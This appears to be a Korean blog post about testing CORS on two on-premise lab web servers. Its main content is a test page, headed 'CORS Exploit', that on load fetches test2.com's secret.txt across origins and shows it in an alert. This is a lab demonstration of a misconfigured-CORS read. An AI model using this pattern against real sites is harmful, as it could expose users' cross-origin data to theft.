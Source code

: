 ```yaml
---
title:  "CORS 테스트 (온프레미스 환경)"
excerpt: "CORS (Cross Origin Resource Sharing)"
header:
  overlay_color: "#333"  
categories:
  - websrv
tags:
  - cors
  - web
last_modified_at: 2021-01-22
last_modified_at_2 : 2021-01-22
toc: true
toc_label: "목차"
toc_sticky: true
classes: wide
share: false
layout: single
comments: true
---
```


### 테스트 환경

| 웹서버1 | 웹서버2 |
|---|---|
| 192.168.10.130 | 192.168.10.131 |
| test1.com | test2.com |


#### 웹서버1에서의 테스트 코드 (test.php)
```
<!DOCTYPE html>
<html>
    <head>
        <script>
            function cors() {
                var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        alert(this.responseText);
                    }
                };
                xhttp.open("GET", "http://test2.com/secret.txt", true);
                xhttp.send();
            };
        </script>
    </head>

    <body onload="cors()">
        <h2>CORS Exploit</h2>
        <h3>test2.com's secret</h3>
    </body>
</html>
```
